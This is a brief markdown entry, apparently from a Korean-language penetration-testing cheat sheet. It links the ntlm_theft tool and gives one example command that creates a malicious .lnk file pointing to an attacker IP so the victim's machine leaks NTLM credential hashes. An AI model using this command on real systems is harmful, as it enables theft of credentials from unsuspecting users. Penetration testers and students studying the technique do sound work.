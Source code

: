 ### NTLM theft
https://github.com/Greenwolf/ntlm_theft

lnk 파일 생성 예시
```bash
python3 ntlm_theft.py -g lnk -s 192.168.45.192 -f vault
```




